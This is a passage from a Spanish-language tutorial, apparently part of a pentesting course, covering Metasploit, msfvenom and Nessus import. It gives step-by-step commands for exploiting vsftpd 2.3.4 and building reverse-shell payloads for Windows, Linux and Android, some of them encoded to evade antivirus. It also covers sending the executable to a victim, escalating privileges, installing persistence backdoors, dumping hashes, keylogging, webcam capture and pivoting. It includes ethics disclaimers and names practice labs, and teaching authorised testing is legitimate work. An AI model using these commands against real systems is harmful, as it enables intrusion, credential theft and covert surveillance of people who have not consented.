> Herramienta para **crear payloads** personalizados.

---

### **4️⃣ Instalación de Metasploit (muy fácil paso a paso)**

✅ 🎯 En **Kali Linux** ya está preinstalado:

```bash
msfconsole
```

✅ 🎯 En **Ubuntu / Debian**:

```bash
sudo apt update
sudo apt install metasploit-framework
```

✅ 🎯 Verificar instalación:

```bash
msfconsole
```

Te saldrá:

```
msf6 >
```

✅ 🎯 En **Windows** (opción recomendada):

- Instala **WSL** (Windows Subsystem for Linux) + Ubuntu.
- Dentro de Ubuntu → usa los comandos de arriba.

✅ 🎯 O descarga instalador oficial:

👉 [https://www.metasploit.com](https://www.metasploit.com)

---

### **5️⃣ Abrir Metasploit**

✅ En la terminal:

```bash
msfconsole
```

✅ Verás algo como:

```
       =[ metasploit v6.x.x ]
+ -- --=[ 2207 exploits - 1241 auxiliary - ... ]
msf6 >
```

¡Ya estás dentro!

---

### **6️⃣ Primeros comandos útiles**

✅ Ver todos los exploits disponibles:

```bash
show exploits
```

✅ Buscar un exploit específico:

```bash
search vsftpd
```

✅ Usar un exploit:

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```

✅ Ver opciones del módulo:

```bash
show options
```

✅ Configurar IP objetivo:

```bash
set RHOSTS 192.168.1.10
```

✅ Ejecutar el exploit:

```bash
run
```

---

✅ Resultado esperado:

Si la vulnerabilidad existe:

```
[*] Command shell session 1 opened
```

¡Ya tienes acceso!

---

### **7️⃣ Ejemplo práctico completo (real y fácil)**

✅ 🧭 Escenario:

✔ Objetivo vulnerable: vsftpd 2.3.4 en IP 192.168.1.10

✅ PASOS:

✅ 1️⃣ Abrir Metasploit

```bash
msfconsole
```

✅ 2️⃣ Buscar exploit

```bash
search vsftpd
```

Resultado:

```
exploit/unix/ftp/vsftpd_234_backdoor
```

✅ 3️⃣ Usar el exploit

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```

✅ 4️⃣ Ver opciones

```bash
show options
```

✅ 5️⃣ Configurar objetivo

```bash
set RHOSTS 192.168.1.10
```

✅ 6️⃣ Ejecutar exploit

```bash
run
```

✅ Resultado:

```
[*] Command shell session 1 opened
```

✔ Ya tienes **shell** → puedes ejecutar comandos:

```
ls
whoami
pwd
```

---

### **8️⃣ Crear payload con msfvenom**

✅ 🎯 Generar shell reversa para Windows:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=TU_IP LPORT=4444 -f exe -o shell.exe
```

- `-p` → payload
- `LHOST` → tu IP (atacante)
- `LPORT` → tu puerto listener
- `-f` → formato (exe)
- `-o` → nombre del archivo

✅ Luego:

- Envías `shell.exe` a la víctima.
- Abres un listener con Metasploit o Netcat.
- Cuando la víctima lo ejecuta, obtienes shell.

---

### **9️⃣ ¿Cómo abrir un listener en Metasploit?**

✅ En Metasploit:

```bash
use exploit/multi/handler
set PAYLOAD windows/shell_reverse_tcp
set LHOST TU_IP
set LPORT 4444
run
```

✔ Ahora esperas que la víctima se conecte.

---

### **10️ Precauciones éticas**

⚠️ **IMPORTANTE**:

✅ Solo usa Metasploit en:

✔ Entornos de prueba.

✔ Laboratorios.

✔ Con permiso explícito.

🚫 Nunca en redes o sistemas ajenos sin autorización.

✅ Es ilegal → hacking criminal.

---

✅ Ejemplos de entornos seguros:

- **TryHackMe**
- **Hack The Box**
- **Máquinas virtuales locales** (Kali + Metasploitable)

---

### **11️ Resumen MUY fácil**

| Concepto   | Explicación sencilla                                       |
| ---------- | ---------------------------------------------------------- |
| Metasploit | Herramienta para explotar vulnerabilidades                 |
| Exploit    | Código para aprovechar la falla                            |
| Payload    | Código malicioso que se ejecuta (shell, meterpreter, etc.) |
| Listener   | Donde tú esperas la conexión de la víctima                 |
| msfvenom   | Herramienta para generar payloads personalizados           |
| Uso ético  | Solo en entornos de prueba o con permiso                   |

---

### **12️ Enlaces súper útiles**

✅ Metasploit Framework Docs:

👉 [https://docs.metasploit.com](https://docs.metasploit.com)

✅ Metasploit Unleashed (curso gratuito):

👉 [https://www.offensive-security.com/metasploit-unleashed/](https://www.offensive-security.com/metasploit-unleashed/)

✅ Exploit-DB:

👉 [https://www.exploit-db.com](https://www.exploit-db.com)

✅ TryHackMe (laboratorios seguros):

👉 [https://tryhackme.com](https://tryhackme.com)

---

### ✅ 13️ ¿Quieres más ayuda?

✔ ¿Te gustaría practicar un ataque real en laboratorio virtual?

✔ ¿Quieres aprender a usar msfvenom más a fondo?

✔ ¿Quieres hacer post-explotación con Meterpreter?

📩 Solo dime: **“Quiero seguir”** y continuamos paso por paso 😊

---

[🔼](#índice)

---

## **49. Metasploit: Explotación básica**

### ✅ 1️⃣ ¿Qué es la explotación básica con Metasploit?

**Explotación** = aprovechar una vulnerabilidad conocida para ganar acceso a un sistema.

**Explotación básica en Metasploit** =

✅ Usar módulos pre-hechos (exploits conocidos)

✅ Configurar objetivo (IP/puerto)

✅ Elegir payload (reverse shell, meterpreter)

✅ Lanzar ataque

✅ Obtener acceso

---

✅ 🧭 **Idea sencilla:**

> "Si un servidor tiene una puerta trasera conocida (vulnerabilidad), Metasploit te da la llave (exploit) y la forma de entrar (payload) de forma fácil y automática."

---

### ✅ 2️⃣ Flujo básico en Metasploit (explicado fácil)

✅ **Identificar la vulnerabilidad del objetivo**

✔ Ejemplo: FTP vsftpd 2.3.4

✅ **Buscar el exploit en Metasploit**

✔ Usar el buscador integrado

✅ **Seleccionar el exploit correcto**

✔ Usar módulo

✅ **Configurar opciones**

✔ IP objetivo (RHOSTS)

✔ Puerto (RPORT)

✔ Payload

✅ **Ejecutar el exploit**

✔ run / exploit

✅ **Obtener sesión**

✔ Shell o Meterpreter

---

### ✅ 3️⃣ Instalación de Metasploit

✅ En **Kali Linux**

Ya viene preinstalado:

```bash
msfconsole
```

✅ En **Ubuntu/Debian**

```bash
sudo apt update
sudo apt install metasploit-framework
```

✅ Verificar:

```bash
msfconsole
```

✅ En **Windows**

- Usar **WSL** (Ubuntu en Windows)
- O el instalador oficial:
  👉 [https://www.metasploit.com](https://www.metasploit.com)

---

### ✅ 4️⃣ Abrir Metasploit

✅ Simple:

```bash
msfconsole
```

✅ Salida:

```
msf6 >
```

¡Ya estás dentro!

---

### ✅ 5️⃣ Comandos básicos en msfconsole

✅ Ver ayuda:

```bash
help
```

✅ Buscar exploit:

```bash
search vsftpd
```

✅ Usar exploit:

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```

✅ Ver opciones:

```bash
show options
```

✅ Configurar IP objetivo:

```bash
set RHOSTS 192.168.1.10
```

✅ Configurar puerto:

```bash
set RPORT 21
```

✅ Ejecutar:

```bash
run
```

✅ Ver sesiones activas:

```bash
sessions
```

---

### ✅ 6️⃣ Ejemplo REAL y FÁCIL: vsftpd 2.3.4

✅ Es un clásico vulnerable con **backdoor**.

---

### 🎯 Escenario

✔ Objetivo IP: 192.168.1.10

✔ Servicio vulnerable: vsftpd 2.3.4 en puerto 21

---

### ✅ PASO A PASO COMPLETO

✅ 1️⃣ Abrir Metasploit:

```bash
msfconsole
```

---

✅ 2️⃣ Buscar exploit:

```bash
search vsftpd
```

✔ Resultado:

```
exploit/unix/ftp/vsftpd_234_backdoor
```

---

✅ 3️⃣ Usar exploit:

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```

---

✅ 4️⃣ Ver opciones:

```bash
show options
```

✔ Verás:

```
RHOSTS  => Target IP
RPORT   => Target Port (default: 21)
```

---

✅ 5️⃣ Configurar IP objetivo:

```bash
set RHOSTS 192.168.1.10
```

---

✅ 6️⃣ Ejecutar exploit:

```bash
run
```

✅ Salida esperada:

```
[*] Command shell session 1 opened (tu_IP:tu_puerto -> 192.168.1.10:6200)
```

---

✅ 7️⃣ Usar la shell:

```
ls
whoami
pwd
```

✅ ¡Ya tienes acceso remoto!

---

### ✅ 7️⃣ Explicación de cada parte

| Comando              | Qué hace                                |
| -------------------- | --------------------------------------- |
| `search vsftpd`      | Busca el exploit adecuado               |
| `use exploit/...`    | Selecciona el exploit                   |
| `show options`       | Muestra opciones configurables          |
| `set RHOSTS <IP>`    | Define la IP del objetivo               |
| `set RPORT <puerto>` | Define el puerto objetivo (21 para FTP) |
| `run`                | Lanza el exploit                        |
| `sessions`           | Lista sesiones activas                  |
| `session -i <ID>`    | Abre una sesión específica              |

---

### ✅ 8️⃣ ¿Qué es un payload en Metasploit?

✅ Payload = el **código malicioso** que se ejecuta cuando el exploit tiene éxito.

---

✅ Ejemplos:

✔ reverse shell: la víctima se conecta a ti

✔ bind shell: tú te conectas a la víctima

✔ meterpreter: shell avanzada

---

✅ En el módulo vsftpd, ya está configurado el payload automáticamente.

✔ Pero en otros exploits puedes cambiarlo:

```bash
set PAYLOAD linux/x86/shell_reverse_tcp
```

---

### ✅ 9️⃣ ¿Cómo recibir la conexión? (Listener)

✅ Cuando lanzas el exploit con reverse shell:

✔ Metasploit abre automáticamente el listener.

✔ Espera la conexión de la víctima.

✔ Cuando conecta → abre sesión.

---

✅ O puedes hacerlo manual:

```bash
use exploit/multi/handler
set PAYLOAD linux/x86/shell_reverse_tcp
set LHOST tu_IP
set LPORT tu_puerto
run
```

---

### ✅ 10️ Ver sesiones abiertas

✅ Después de un exploit exitoso:

```bash
sessions
```

✅ Ver resultado:

```
[*] 1  shell  192.168.1.10  6200  Command shell
```

✅ Conectar:

```bash
sessions -i 1
```

---

✅ Usar shell:

```
whoami
ls
pwd
```

---

### 🌟 ✅ 11️ ¿Dónde practicar legalmente?

✅ Entornos seguros:

✔ **TryHackMe** → [https://tryhackme.com](https://tryhackme.com)

✔ **Hack The Box** → [https://www.hackthebox.com](https://www.hackthebox.com)

✔ **Metasploitable2** → Máquina virtual vulnerable para laboratorio.

✔ **VulnHub** → [https://www.vulnhub.com](https://www.vulnhub.com)

---

### ✅ 12️ Precauciones éticas

⚠️ **IMPORTANTE** ⚠️

✅ Solo explotar sistemas:

✔ De tu propiedad.

✔ De laboratorio o virtual.

✔ Con **permiso explícito**.

🚫 Nunca sistemas ajenos → es ilegal.

---

### ✅ 13️ Resumen MUY fácil

✅ **Metasploit** = caja de herramientas de hacking.

✅ Exploit = aprovecha la falla.

✅ Payload = qué se ejecuta (shell).

✅ Listener = donde esperas conexión.

✅ Flujo básico:

```
1. search
2. use
3. show options
4. set RHOSTS
5. run
6. sessions
```

---

### ✅ 14️ Enlaces útiles

✅ Metasploit Docs:

👉 [https://docs.metasploit.com](https://docs.metasploit.com)

✅ Exploit-DB:

👉 [https://www.exploit-db.com](https://www.exploit-db.com)

✅ Metasploit Unleashed:

👉 [https://www.offensive-security.com/metasploit-unleashed/](https://www.offensive-security.com/metasploit-unleashed/)

✅ TryHackMe (para practicar):

👉 [https://tryhackme.com](https://tryhackme.com)

---

[🔼](#índice)

---

## **50. Metasploit: Explotación avanzada**

### ✅ 1️⃣ **¿Qué es la explotación avanzada en Metasploit?**

La **explotación básica** = elegir exploit → poner IP → lanzar → conseguir shell.

✅ La **explotación avanzada** va más allá:

✔ Personalizar payloads (msfvenom)

✔ Evadir antivirus (encoders)

✔ Módulos post-explotación

✔ Privilege escalation

✔ Pivoting (moverse lateralmente en la red)

✔ Persistencia (mantener acceso)

✔ Automatización con scripts y recursos

---

✅ **Idea sencilla:**

> “Si la explotación básica es abrir la puerta, la avanzada es **explorar toda la casa, instalar llaves extra y moverte a otras casas**.”

---

### ✅ 2️⃣ Diferencia básica vs avanzada

| Básica                              | Avanzada                                  |
| ----------------------------------- | ----------------------------------------- |
| Lanzar exploit para conseguir shell | Después de tener shell, ampliar el acceso |
| Solo un exploit y un payload        | Múltiples módulos, post-explotación       |
| No siempre persiste                 | Busca persistencia y control extendido    |
| Sin evadir AV                       | Usa encoders y técnicas de evasión        |
| Solo objetivo único                 | Permite pivoting en redes internas        |

---

### ✅ 3️⃣ Instalación de Metasploit

✅ En **Kali Linux** → ya viene preinstalado.

```bash
msfconsole
```

✅ En **Ubuntu/Debian**:

```bash
sudo apt update
sudo apt install metasploit-framework
```

✅ En **Windows** (recomendado con WSL):

```bash
sudo apt install metasploit-framework
```

✅ Verificar:

```bash
msfconsole
```

✅ Página oficial:

👉 [https://www.metasploit.com](https://www.metasploit.com)

---

### ✅ 4️⃣ Conceptos avanzados clave en Metasploit

✅ **Payloads personalizados**

> Generar payload con msfvenom para evadir antivirus

✅ **Encoders**

> Codificar payloads para saltar antivirus simples

✅ **Post-Exploitation**

> Leer archivos, escalar privilegios, crear usuarios

✅ **Privilege Escalation**

> Subir de usuario limitado a administrador/root

✅ **Persistence**

> Crear backdoors para mantener acceso

✅ **Pivoting**

> Usar máquina comprometida para atacar otras en red

✅ **Resource Scripts**

> Automatizar exploits y tareas

---

### ✅ 5️⃣ Herramientas clave en Metasploit para explotación avanzada

✅ **msfvenom** → generar payloads

✅ **encoders** → ocultar payloads

✅ **meterpreter** → shell avanzada

✅ **post modules** → post-explotación

✅ **sessions** → gestionar múltiples shells

✅ **autoroute** → pivoting en redes internas

---

### ✅ 6️⃣ Ejemplo práctico: explotación avanzada paso a paso

✅ Vamos a hacer un ejemplo MUY FÁCIL de seguir:

🧭 **Escenario**:

✔ Tienes acceso inicial con **meterpreter** en Windows.

✔ Objetivo → Escalar privilegios, mantener persistencia.

---

#### ✅ PASO 1️⃣ Conseguir acceso inicial

✅ Ya tienes una sesión meterpreter:

```bash
meterpreter >
```

✅ Verificar sesión:

```bash
sysinfo
```

✅ Resultado:

```
Computer : WIN-ABCD123
OS       : Windows 7
Arch     : x86
```

---

#### ✅ PASO 2️⃣ Escalar privilegios

✅ Ver qué usuario tienes:

```bash
getuid
```

✅ Resultado:

```
Server username: WIN-ABCD123\User
```

✅ Intentar escalar:

```bash
run post/windows/escalate/getsystem
```

✅ Resultado:

```
Got SYSTEM via technique 1 (Named Pipe Impersonation)
```

✅ Verificar de nuevo:

```bash
getuid
```

```
NT AUTHORITY\SYSTEM
```

✔ ¡Ahora eres administrador!

---

✅ **Explicación fácil:**

> Usaste un **módulo post** para subir de usuario normal a **SYSTEM**, el más alto en Windows.

---

#### ✅ PASO 3️⃣ Mantener persistencia

✅ Crear backdoor para regresar más tarde:

```bash
run persistence -U -i 30 -p 4444 -r TU_IP
```

✅ Explicación:

- `-U`: al inicio del usuario
- `-i 30`: cada 30 segundos intenta conectar
- `-p 4444`: puerto
- `-r TU_IP`: tu IP de atacante

✅ Resultado:

```
[*] Running Persistent Script as user: WIN-ABCD123\User
```

✔ Ahora la víctima se reconecta cada vez que inicie sesión.

---

✅ **Idea sencilla:**

> Ya no necesitas explotar de nuevo → la máquina te llama automáticamente.

---

#### ✅ PASO 4️⃣ Recolectar información

✅ Ver procesos:

```bash
ps
```

✅ Descargar archivos:

```bash
download C:\\Users\\User\\Desktop\\passwords.txt
```

✅ Leer credenciales en memoria:

```bash
hashdump
```

✅ Keylogger:

```bash
keyscan_start
```

✅ Para parar:

```bash
keyscan_stop
```

---

#### ✅ PASO 5️⃣ Pivoting

✅ ¿Qué pasa si la víctima está en red interna?

✅ Usas `autoroute` para pivotear:

```bash
run autoroute -s 192.168.1.0/24
```

✅ Ahora tu Metasploit puede atacar **otras máquinas en la red interna** a través de la víctima.

---

### ✅ 7️⃣ Generar payloads personalizados (msfvenom)

✅ Básico:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=TU_IP LPORT=4444 -f exe -o shell.exe
```

✔ `-p` → payload

✔ `LHOST` → tu IP

✔ `LPORT` → puerto

✔ `-f exe` → formato ejecutable

✔ `-o shell.exe` → nombre del archivo

---

✅ Para evadir AV:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=TU_IP LPORT=4444 -f exe -e x86/shikata_ga_nai -i 5 -o shell_encoded.exe
```

✔ `-e` → encoder

✔ `-i` → número de iteraciones

✅ Resultado: payload más difícil de detectar.

---

### ✅ 8️⃣ Listener en Metasploit

✅ Para recibir conexiones:

```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST TU_IP
set LPORT 4444
run
```

✔ Cuando víctima ejecute `shell.exe` → tendrás sesión.

---

### ✅ 9️⃣ Automatización con resource scripts

✅ Puedes guardar comandos en un archivo:

```text
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST TU_IP
set LPORT 4444
run
```

✅ Guardas como **auto.rc**

✅ Ejecutas:

```bash
msfconsole -r auto.rc
```

✔ Automatiza tu ataque.

---

### ✅ 10️ Resumen ultra fácil

✅ Explotación básica:

✔ Un exploit → un payload → acceso.

✅ Explotación avanzada:

✔ Escalada de privilegios

✔ Persistencia

✔ Pivoting

✔ Evasión antivirus

✔ Automatización

---

### ✅ 11️ Enlaces útiles

✅ Metasploit Docs:

👉 [https://docs.metasploit.com](https://docs.metasploit.com)

✅ Exploit-DB:

👉 [https://www.exploit-db.com](https://www.exploit-db.com)

✅ Metasploit Unleashed:

👉 [https://www.offensive-security.com/metasploit-unleashed/](https://www.offensive-security.com/metasploit-unleashed/)

✅ TryHackMe (laboratorios seguros):

👉 [https://tryhackme.com](https://tryhackme.com)

---

### ⚠️ **12️ Precauciones éticas**

✅ Solo usar en:

✔ Laboratorios

✔ Máquinas virtuales propias

✔ Plataformas autorizadas

❌ Nunca en sistemas ajenos sin permiso → es ilegal.

---

### ✅ 13️ Ejercicio propuesto para ti

✔ Instala Metasploit (si no lo tienes).

✔ Lanza un **exploit básico** (vsftpd en Metasploitable2).

✔ Abre una **meterpreter**.

✔ Usa post/windows/escalate/getsystem para escalar.

✔ Usa run persistence para mantener acceso.

✔ Haz download de un archivo.

✔ Haz autoroute para pivoting (si tienes segunda VM en la red).

---

[🔼](#índice)

---

## **51. Msfvenom: Creación de payloads personalizados**

### 🎯 ¿Qué es `msfvenom`?

`msfvenom` es una herramienta incluida en **Metasploit Framework** que permite **crear payloads personalizados**, es decir, **programas maliciosos que puedes usar para obtener acceso a un sistema** cuando se ejecutan.

> 🧠 En pocas palabras:
>
> `msfvenom` crea el "virus" que usas para hacer una conexión entre víctima y atacante.

---

#### ✅ ¿Para qué sirve?

Con `msfvenom` puedes:

- Crear **reverse shells** y **bind shells**.
- Crear payloads para **Windows**, **Linux**, **Android**, **macOS**, etc.
- Generar ejecutables (`.exe`, `.elf`, `.apk`, `.py`, etc.).
- Usar **encoders** para evitar detección por antivirus.
- Insertar payloads en otros archivos (embedding o trojanización).
- Usarlo en conjunción con `msfconsole`.

---

### 🛠️ **Instalación (si no lo tienes)**

#### En **Kali Linux**:

Ya viene instalado. Solo escribe:

```bash
msfvenom -h
```

#### En **Ubuntu/Debian**:

```bash
sudo apt update
sudo apt install metasploit-framework
```

Verifica:

```bash
msfvenom -h
```

---

### 🧠 **Conceptos claves antes de usar**

| Parámetro | Significado                                         |
| --------- | --------------------------------------------------- |
| `-p`      | Payload (tipo de código malicioso que quieres usar) |
| `LHOST`   | Tu IP (donde recibirás la conexión)                 |
| `LPORT`   | Puerto que abrirás para escuchar                    |
| `-f`      | Formato de salida (`exe`, `py`, `elf`, etc.)        |
| `-o`      | Nombre del archivo de salida                        |
| `-e`      | Encoder (para ocultar el payload)                   |

---

### ✅ 1️⃣ **Payload Windows Reverse Shell**

🎯 Este payload se conecta desde la víctima a tu máquina atacante (reverse shell).

#### 💻 Comando:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f exe -o shell.exe
```

#### 🧩 Explicación:

- `-p windows/meterpreter/reverse_tcp`: payload para Windows.
- `LHOST`: tu IP (atacante).
- `LPORT`: puerto para recibir la conexión.
- `-f exe`: genera archivo `.exe`.
- `-o shell.exe`: nombre del archivo final.

👉 **Cuando la víctima ejecute `shell.exe`, se conectará a tu máquina.**

---

### ✅ 2️⃣ **Payload para Linux (.elf)**

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=5555 -f elf -o shell.elf
```

---

### ✅ 3️⃣ **Payload para Android (.apk)**

```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=8080 -o backdoor.apk
```

---

### ✅ 4️⃣ **Payload Python (útil para entornos tipo Linux)**

```bash
msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=9001 -f raw -o payload.py
```

---

### ✅ 5️⃣ **Payload con evasión antivirus (encoder)**

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=4444 -e x86/shikata_ga_nai -i 5 -f exe -o shell_enc.exe
```

- `-e x86/shikata_ga_nai`: codifica el payload.
- `-i 5`: codifica 5 veces.

👉 **Más difícil de detectar por antivirus comunes.**

---

### ✅ 6️⃣ **Insertar el payload en otro archivo (embedding)**

⚠️ Esta es una técnica más avanzada (trojanizar), requiere herramientas como `msfvenom` + `msfconsole` + editores binarios o herramientas como `backdoor-factory`.

---

### ✅ 7️⃣ **Ver todos los payloads disponibles**

```bash
msfvenom -l payloads
```

---

### ✅ 8️⃣ **Ver todos los formatos disponibles**

```bash
msfvenom --help-formats
```

---

### ✅ 9️⃣ **¿Cómo recibir la conexión (listener)?**

1️⃣ Abre `msfconsole`

```bash
msfconsole
```

2️⃣ Usa el handler:

```bash
use exploit/multi/handler
```

3️⃣ Configura igual que el payload:

```bash
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.5
set LPORT 4444
run
```

✅ Cuando la víctima abra el archivo, te saldrá:

```
[*] Meterpreter session 1 opened
```

¡Y ya tienes acceso remoto!

---

### ✅ 10️ Interactuar con la sesión

```bash
sessions -i 1
```

Dentro de la sesión `meterpreter` puedes:

```bash
sysinfo           # ver info del sistema
getuid            # ver usuario actual
download archivo  # descargar archivo de víctima
webcam_snap       # tomar foto (si hay cámara)
keyscan_start     # iniciar keylogger
```

---

### ⚠️ Ética y legalidad

**Nunca uses estos payloads en sistemas que no te pertenezcan o no tengas permiso para evaluar.**

👉 Solo en laboratorios como:

- 🧪 TryHackMe
- 🧪 HackTheBox
- 🧪 Máquinas virtuales: Kali + Metasploitable2

---

### ✅ Ejercicio recomendado

1. Genera un payload para Windows con `msfvenom`.
2. Lanza un handler con `msfconsole`.
3. Ejecuta el payload en tu VM vulnerable (por ejemplo, Metasploitable2 con Wine o Windows 7 en VirtualBox).
4. Gana una shell `meterpreter`.
5. Usa comandos de post-explotación.

---

### ✅ En resumen

| Acción                   | Comando                                                    |
| ------------------------ | ---------------------------------------------------------- |
| Crear payload exe        | `msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP ...` |
| Crear payload apk        | `msfvenom -p android/meterpreter/reverse_tcp ...`          |
| Añadir encoder           | `-e x86/shikata_ga_nai -i 5`                               |
| Formato de salida        | `-f exe / elf / raw / py`                                  |
| Ver payloads disponibles | `msfvenom -l payloads`                                     |
| Ver formatos             | `msfvenom --help-formats`                                  |
| Listener en Metasploit   | `use exploit/multi/handler` + `set PAYLOAD ...` + `run`    |

---

[🔼](#índice)

---

## **52. Metasploit: Importando los resultados de Nessus**

### 📌 **1️⃣ Introducción breve**

✅ **Nessus** es un **escáner de vulnerabilidades** que analiza hosts y servicios para encontrar fallas conocidas.

✅ **Metasploit** es un **framework de explotación**: te ayuda a usar esos resultados para lanzar exploits y obtener acceso.

✅ **Integración clave:**

> Importar los resultados del escaneo de Nessus a Metasploit → para explotar automáticamente las vulnerabilidades encontradas.

---

✅ **¿Por qué hacerlo?**

✔ Automatizas el paso de escaneo a explotación.

✔ Encuentras vulnerabilidades ya filtradas.

✔ Evitas buscar exploits manualmente.

✔ Ahorras tiempo en pruebas de penetración.

---

### 📌 **2️⃣ ¿Qué formato necesitas de Nessus?**

✅ Nessus genera varios formatos de reporte.

✅ El que necesitas para importar en Metasploit es el **.nessus** (XML).

✅ Cuando exportas un escaneo desde la consola web de Nessus:

- Ve a **Reports** o **Scans**.
- Selecciona tu escaneo terminado.
- Elige **Export** → **.nessus (XML)**.
- Guarda el archivo, por ejemplo: `scan_result.nessus`.

✅ ✔️ **¡Ese archivo es el que importarás en Metasploit!**

---

### 📌 **3️⃣ Instalación previa (si no tienes Metasploit)**

#### ✅ En **Kali Linux**:

Ya viene preinstalado:

```bash
msfconsole
```

#### ✅ En **Ubuntu/Debian**:

```bash
sudo apt update
sudo apt install metasploit-framework
```

Verificar:

```bash
msfconsole
```

✅ En **Windows**:

- Usa **WSL** con Ubuntu.
- O descarga de [https://www.metasploit.com](https://www.metasploit.com).

---

### 📌 **4️⃣ Preparar Metasploit para importar**

✅ **Inicia Metasploit Framework**:

```bash
msfconsole
```

---

✅ **Verifica tu base de datos (PostgreSQL) está corriendo:**

```bash
db_status
```

✔ Resultado esperado:

```
Connected to msf
```

✅ **Si no está conectado:**

```bash
db_connect
```

(o usa `service postgresql start` antes, dependiendo de tu sistema).

---

### 📌 **5️⃣ Importar archivo Nessus (.nessus)**

✅ Coloca tu archivo en un lugar conocido.

✅ Ejemplo: `~/nessus/scan_result.nessus`.

---

✅ En `msfconsole`:

```bash
db_import ~/nessus/scan_result.nessus
```

✔ Resultado:

```
[*] Importing Nessus scan results...
[*] Import complete!
```

✅ 🎯 **¿Qué hizo?**

- Importó los hosts encontrados.
- Importó los puertos abiertos.
- Importó las vulnerabilidades detectadas.

---

✅ **Verifica hosts importados:**

```bash
hosts
```

✅ **Verifica servicios encontrados:**

```bash
services
```

✅ **Verifica vulnerabilidades:**

```bash
vulns
```

---

✅ Ejemplo REAL:

```
msf6 > hosts

Hosts
======
address         mac  name  os_name     os_flavor  os_sp  purpose  info  comments
192.168.1.10         vsftpd 2.3.4  Linux                     server

msf6 > services

Services
========
host           port  proto  name  state
192.168.1.10   21    tcp    ftp   open

msf6 > vulns

Vulnerabilities
================
host           name
192.168.1.10   vsftpd 2.3.4 Backdoor Command Execution
```

---

### 📌 **6️⃣ Explorar vulnerabilidades con Metasploit**

✅ Una vez importado:

✔ Buscar módulos en Metasploit para explotar:

```bash
search vsftpd
```

✔ Usar exploit:

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```

✔ Configurar objetivo:

```bash
set RHOSTS 192.168.1.10
```

✔ Ejecutar:

```bash
run
```

✅ Resultado esperado:

```
[*] Command shell session 1 opened
```

✔ ¡Ya tienes acceso!

---

✅ 🎯 **Explicación fácil:**

> Nessus te dice “este puerto tiene esta vulnerabilidad”.
>
> Metasploit te da el exploit para atacarla.

---

### 📌 **7️⃣ Uso avanzado con Workspaces**

✅ Metasploit permite tener **espacios de trabajo** para separar proyectos.

✅ Ver todos los workspaces:

```bash
workspace
```

✅ Crear uno nuevo:

```bash
workspace -a clienteABC
```

✅ Cambiar:

```bash
workspace clienteABC
```

✅ Importar escaneo de Nessus en ese workspace:

```bash
db_import ~/nessus/scan_result.nessus
```

✅ Así puedes organizar múltiples proyectos.

---

### 📌 **8️⃣ Exportar datos desde Metasploit**

✅ Puedes exportar hosts, servicios y vulnerabilidades en CSV para reportes:

```bash
hosts -o hosts.csv
services -o services.csv
vulns -o vulns.csv
```

---

### 📌 **9️⃣ Ejemplo completo (resumen)**

✅ 1️⃣ Tener archivo Nessus:

```
scan_result.nessus
```

✅ 2️⃣ Abrir Metasploit:

```
msfconsole
```

✅ 3️⃣ Verificar base de datos:

```
db_status
```

✅ 4️⃣ Importar:

```
db_import ~/nessus/scan_result.nessus
```

✅ 5️⃣ Ver hosts:

```
hosts
```

✅ 6️⃣ Ver servicios:

```
services
```

✅ 7️⃣ Ver vulnerabilidades:

```
vulns
```

✅ 8️⃣ Elegir exploit:

```
search vsftpd
```

✅ 9️⃣ Usar exploit:

```
use exploit/unix/ftp/vsftpd_234_backdoor
```

✅ 10️ Configurar:

```
set RHOSTS 192.168.1.10
```

✅ 11️ Lanzar:

```
run
```

✅ 12️ Obtener sesión:

```
sessions
```

✅ 🎯 ¡Listo!

---

### 📌 **10️ ¿Dónde practicar legalmente?**

✅ **TryHackMe:**

👉 [https://tryhackme.com](https://tryhackme.com)

✅ **Hack The Box:**

👉 [https://www.hackthebox.com](https://www.hackthebox.com)

✅ **Metasploitable2 (máquina vulnerable para laboratorio):**

👉 Fácil de importar en VirtualBox o VMware

✅ **VulnHub:**

👉 [https://www.vulnhub.com](https://www.vulnhub.com)

---

### ⚠️ **11️ Precauciones Éticas**

✅ Solo importar, analizar y explotar datos:

✔ En redes de prueba.

✔ Con autorización.

✔ Para fines educativos o profesionales.

❌ Nunca atacar sistemas sin permiso.

---

### 📌 **✅ 12️ Enlaces útiles**

✅ Metasploit Docs:

👉 [https://docs.metasploit.com](https://docs.metasploit.com)

✅ Tenable Nessus Docs:

👉 [https://docs.tenable.com/nessus](https://docs.tenable.com/nessus)

✅ Metasploit Unleashed:

👉 [https://www.offensive-security.com/metasploit-unleashed/](https://www.offensive-security.com/metasploit-unleashed/)

---

### ✅ 🎯 RESUMEN SÚPER CORTO

🟢 Nessus → Encuentra vulnerabilidades → Exporta .nessus.

🟢 Metasploit → Importa .nessus → Ve hosts, servicios y vulnerabilidades.

🟢 Usa exploits → Gana acceso → Post-explotación.

---

### 📌 **✅ Si quieres podemos hacer juntos:**

✔ Importar un archivo real o de ejemplo.

✔ Explorar la base de datos de Metasploit.

✔ Elegir exploits adecuados.

✔ Crear payloads personalizados con msfvenom.

✔ Lanzar un ataque en laboratorio.

---

[🔼](#índice)

---

## **53. Armitage: Interfaz gráfica de Metasploit**

### ✅ **1️⃣ ¿Qué es Armitage?**

- **Armitage** es una **interfaz gráfica (GUI)** para **Metasploit Framework**.
- Fue diseñada para **facilitar el trabajo con Metasploit**, sobre todo en **equipos o principiantes**.
- Permite **clics en lugar de comandos**:

  - Escanear hosts
  - Ver servicios
  - Encontrar exploits
  - Lanzar ataques
  - Gestionar sesiones

✅ **Idea sencilla:**

> "Es como usar Metasploit pero con ventanas, iconos y botones."

---

### ✅ **2️⃣ ¿Para qué sirve Armitage?**

